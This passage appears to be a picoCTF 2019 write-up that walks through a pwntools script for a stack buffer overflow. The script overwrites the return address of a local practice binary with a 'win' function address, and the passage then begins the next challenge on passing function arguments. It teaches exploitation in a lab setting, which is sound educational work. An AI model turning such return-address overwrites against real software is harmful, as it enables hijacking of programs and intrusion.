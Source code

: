<br>
```python
from pwn import *

p = process('./vuln')

win = 0x080485e6

payload=fit({
    (0x48+4):p32(win)
})

p.recvuntil(':')
p.sendline(payload)
p.interactive()

```

<br>

First we tell pwntools what process we are looking at, set this to the file name of the executable you download. Next we note where the win function is and construct a payload with `fit()`. This function will simply insert whatever value we want at a specified place inside the payload. In this case, we put the 'win' address after 0x48+4 bytes- right over the return address. The `p32()` around win will translate that address into little-endian form, since thats how it will be read inside the program.

The rest of the script simply runs the program until it prompts us for user input, then sends the payload and allows us to view the results.

<br>
* * *
## Overflow 2

This is a similar challenge to overflow 1, but this time we must provide some arguments to the flag function. How do we do this? Recall that arguments to a function are passed in reverse order when setting up a new stack frame, as follows:

![stack-args](/assets/images/pico2019/stack-args.jpg)
